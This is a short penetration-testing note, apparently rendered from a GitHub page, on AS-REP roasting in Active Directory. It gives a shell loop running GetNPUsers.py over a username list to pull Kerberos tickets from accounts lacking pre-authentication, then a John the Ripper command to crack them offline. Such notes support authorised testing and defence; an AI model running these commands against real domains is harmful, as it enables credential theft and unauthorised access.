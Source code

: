 # ASREPRosting

Given a list of valid domain usernames, query the KDC / Kerberos server to determine which has the "does not require pre-authentication" option set. You can retrieve the TGT of each account that does, and then crack them offline using JTR.

* Attempt to get the TGT for each user account

```bash
for u in $(cat $USERNAME_FILE)
do
    GetNPUsers.py $DNS_DOMAIN_NAME/$u
done
```

* Save recovered TGTs to tgt.txt

* Attempt to crack recovered TGTs

```bash
john tgt.txt --wordlist=$PASSWORD_LIST
```
